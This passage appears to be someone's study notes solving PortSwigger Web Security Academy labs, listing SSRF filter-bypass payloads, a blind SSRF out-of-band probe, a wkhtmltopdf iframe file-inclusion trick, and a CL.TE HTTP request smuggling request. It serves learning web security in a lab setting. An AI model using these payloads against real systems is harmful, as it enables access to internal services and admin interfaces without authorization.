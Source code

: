 ### 2. SSRF with blacklist-based input filter
```
stockApi=http://127.1/AdMiN/
```

### 3. SSRF with filter bypass via open redirection vulnerability
```
stockApi=/product/nextProduct?currentProductId=2%26path%3dhttp://192.168.0.12:8080/admin
```

### 4. Blind SSRF with out-of-band detection
```
Referer: http://burpcollaborator
```

### 5. SSRF with whitelist-based input filter
```
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/
```

### 6. Admin panel - Download report as PDF SSRF  
![image](https://user-images.githubusercontent.com/58632878/225074847-8daa2242-a99d-423f-888e-111755f04d9c.png)  
```
<iframe src='http://localhost:6566/secret' height='500' width='500'>
```
>https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/  


# HTTP request smuggling
## Approach
Hard topic. My only recommendation is to use **HTTP Request Smuggler** extension for BurpSuite to check, if there are any possible smugglings and then construct the payload with **Labs** tab.  
![image](https://user-images.githubusercontent.com/58632878/224703333-1e13a5c1-81f5-401d-b7c8-bebd9e0c7a40.png)  

## Labs
### 1. Use unsupported Method GPOST (CL.TE)
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
